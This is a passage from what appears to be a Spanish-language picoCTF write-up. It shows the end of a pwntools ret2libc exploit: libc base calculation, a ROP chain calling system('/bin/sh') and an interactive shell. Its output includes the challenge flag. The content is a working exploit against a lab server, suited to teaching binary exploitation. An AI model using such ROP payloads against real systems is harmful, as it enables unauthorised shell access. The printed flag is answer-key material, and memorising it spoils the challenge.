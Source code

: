 ```py

libc = puts - offset_puts
log.info(f'Direccion base de libc: {hex(libc)}')  

offset_system = 0x4f4e0
offset_bin_sh = 0x1b40fa

system = libc + offset_system
bin_sh = libc + offset_bin_sh 

payload = padding
payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(0x40052e)
payload += p64(system)

p.sendline(payload)
p.interactive()
```
### Flag

Y ahora ya tenemos la flag:

```bash
python3 exploit.py                                                ─╯
[+] Opening connection to mercury.picoctf.net on port 42072: Done
[*] Direccion de puts en tiempo de ejecucion: 0x7f8fa1699a30
[*] Direccion base de libc: 0x7f8fa1619000
[*] Switching to interactive mode
WeLcOmE To mY EcHo sErVeR!
AaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAaAAAAAAAAAAAAAAAAAAAAd
$ cat flag.txt
picoCTF{1_<3_sm4sh_st4cking_3a9ee516616d21b3}
$ whoami
here-s-a-libc_0
```

Eso ha sido todo, gracias por leer ❤